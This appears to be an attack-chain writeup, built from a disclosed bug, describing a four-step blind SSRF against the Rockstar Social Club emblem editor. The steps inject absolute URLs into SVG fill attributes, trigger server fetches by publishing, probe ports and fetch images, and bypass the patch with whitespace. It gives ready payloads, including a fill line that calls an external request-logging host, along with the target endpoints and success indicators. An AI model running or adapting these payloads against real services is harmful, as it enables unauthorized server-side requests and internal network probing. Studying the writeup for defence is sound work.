

# Blind SSRF in Rockstar Social Club Emblem Editor via SVG Fill Attribute

Multi-stage attack chain demonstrating a complete blind SSRF workflow in the Rockstar Games Social Club emblem editor, where absolute URLs in SVG 'fill' attributes enable arbitrary server-side HTTP requests, including internal ports and image retrieval, with a whitespace-based bypass for the initial patch.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/requestb-in]]
- [[tools/netcat]]

### Target Environment

- Web platform with access to socialclub.rockstargames.com
- Emblem editor functionality enabled
- Network access to external request logging services

### Initial Access Requirements

- Valid user account on Rockstar Social Club
- Browser for interacting with the emblem editor
- No prior privileged access needed

## Detailed Attack Procedures

### Step 1: Inject Absolute URL in SVG Fill for Blind SSRF Discovery
procedure: [[procedures/Inject-Absolute-URL-in-SVG-Fill-for-Blind-SSRF-Discovery]]

**Objective**: Discover the blind SSRF vulnerability by injecting an absolute URL into the SVG fill attribute and submitting it via the emblem editor.

**Instructions**: Create an SVG with a path element using the fill attribute set to an external URL, such as using [[commands/svg-fill-url-injection]]:

```xml
<path d="M0 0h24v24H0z" fill="url(https://requestb.in/15rxmgv1#test)" />
```

Submit this SVG through the emblem editor interface.

**Expected Output**: SVG accepted without error, emblem saved locally.

**Success Indicators**:
- SVG uploads successfully
- No immediate validation errors

### Step 2: Publish Emblem to Trigger Server-Side Request
procedure: [[procedures/Publish-Emblem-to-Trigger-Server-Side-Request]]

**Objective**: Trigger the server to make an HTTP request to the injected URL by publishing the emblem.

**Instructions**: After saving the emblem, use the publish endpoint. This involves a POST to /emblems/save with JSON payload including the svgData, followed by /emblems/publish. Monitor the requestbin for incoming GET requests from the Rockstar server IP using [[tools/requestb-in]].

**Expected Output**: Incoming HTTP GET request to the controlled URL from the target's server IP.

**Success Indicators**:
- Request logged on external server
- Request originates from Rockstar's infrastructure

### Step 3: Escalate SSRF to Retrieve Image Files
procedure: [[procedures/Escalate-SSRF-to-Retrieve-Image-Files]]

**Objective**: Escalate the SSRF to fetch and incorporate external or internal image files into the emblem by modifying the URL to point to valid SVGs on different ports.

**Instructions**: Host a valid SVG at an external URL, inject it into the fill attribute, and republish the emblem. Test ports by altering the URL scheme, e.g., http://example.com:8080/image.svg#test. Observe if the server fetches and uses the content in the final emblem image.

**Expected Output**: Server fetches the SVG; emblem image may incorporate fetched data if valid.

**Success Indicators**:
- Requests to arbitrary ports logged
- Potential internal resource access confirmed via logs

### Step 4: Bypass SSRF Fix Using Whitespace in URL
procedure: [[procedures/Bypass-SSRF-Fix-Using-Whitespace-in-URL]]

**Objective**: Bypass the initial SSRF patch by inserting whitespace around and within the URL to evade regex filtering.

**Instructions**: After the fix, modify the fill attribute with whitespace, e.g., fill='url( http://example/te st#123 )', base64-encode the SVG, and POST to /emblems/save using [[commands/post-emblems-save-bypass]]. Then publish and monitor for requests to paths like /te%20st.

**Expected Output**: Server requests the malformed URL, e.g., GET /te%20st from Rockstar IP.

**Success Indicators**:
- Bypass successful, requests logged despite fix
- 404 or other response from controlled server

## Attack Chain Summary

### Key Achievements

1. Discovered blind SSRF via SVG fill injection
2. Triggered arbitrary HTTP requests including port scanning
3. Retrieved and incorporated external images
4. Bypassed patch using whitespace malformation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Reconnaissance]]

---
*Last updated: 2023-10-01T00:00:00Z*
